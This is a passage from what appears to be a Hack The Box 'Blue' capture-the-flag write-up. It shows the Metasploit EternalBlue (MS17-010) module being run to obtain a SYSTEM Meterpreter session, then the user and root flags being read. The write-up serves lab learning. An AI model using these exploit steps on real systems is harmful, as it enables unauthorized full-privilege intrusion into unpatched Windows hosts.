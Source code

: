 ```bash
use exploit/windows/smb/ms17_010_eternalblue
```


![payload](GitHubv2/HackTheBox/EASY/Blue/screenshots/payload.png)

---
### 3.3 Executing the Exploit

Run the exploit:

```bash
exploit
```

![exploit](GitHubv2/HackTheBox/EASY/Blue/screenshots/exploit.png)

The exploit succeeds, and we obtain a **Meterpreter** session as `NT AUTHORITY\SYSTEM`.

---
## 4. Post-Exploitation

### 4.1 User Flag

Navigate to the user's Desktop and retrieve the flag:

```bash
cd C:\Users\haris\Desktop
cat user.txt
```

![user_flag](GitHubv2/HackTheBox/EASY/Blue/screenshots/user_flag.png)

✅ **User flag obtained**

---
### 4.2 Root Flag

As we already have SYSTEM privileges, retrieve the root flag:

```bash
cd C:\Users\Administrator\Desktop
cat root.txt
```

![root_flag](GitHubv2/HackTheBox/EASY/Blue/screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path
